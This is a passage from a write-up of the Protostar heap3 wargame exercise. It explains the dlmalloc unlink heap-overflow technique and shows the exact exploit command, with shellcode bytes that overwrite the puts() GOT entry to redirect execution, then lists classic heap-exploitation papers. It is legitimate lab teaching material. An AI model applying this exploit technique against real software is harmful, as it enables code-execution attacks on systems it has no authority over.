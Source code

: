 We see that it segfaults as it attempts to write to `0x804886c`. This is due to
second step in the unlink process.

We need to change our input so that `P->bk + 8` lands somewhere in a writable
memory address space. What we can do is overwrite the `puts()` GOT entry with
a location on the heap that contains some shellcode to jump to `winner()`.

To obtain our shellcode, we use `nasm_shell` to generate a
`push 0x8048864; ret` instruction.

```shell
nasm > push 0x08048864
00000000  6864880408        push dword 0x8048864
nasm > ret
00000000  C3                ret
```

We place our shell code at the start of the heap using our first `strcpy()`.
We want to start the shellcode after writing 4 bytes because the initial 4
bytes of data for each chunk will be overwritten when the chunk is freed.
Since we know that our heap memory starts at `0x804c000`, we know that our
shell code starts at `0x804c00c`.

```shell
user@protostar:~$ /opt/protostar/bin/heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08'"` DDD
that wasn't too bad now, was it? @ 1527713315
```

<h1>Closing Thoughts</h1>

Heap exploitation is _complicated_. The examples we have seen in Protostar are
relatively simple techniques. This is especially true for heap 3 as glibc has
been hardened against the "unlink()" technique for a very long time. However,
it is still worth studying as it nicely illustrates how heap metadata can be
abused for code execution.

We leave links to resources that are worth reading to further your heap
exploitation knowledge.

Already linked above:

1. [Vudo - An object superstitiously believed to embody magical powers][phrack-vudo]
2. [Once upon a free()...][once-upon-a-free]

Other classic papers:

1. [Advanced Doug lea's malloc exploits][advanced-dlmalloc-exploits]
2. [The Malloc Maleficarum][malloc-maleficarum]
3. [Malloc Des-Maleficarum][malloc-des-maleficarum]

Constantly updated resource:

1. [shellphish's how2heap on GitHub][how2heap]

[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap
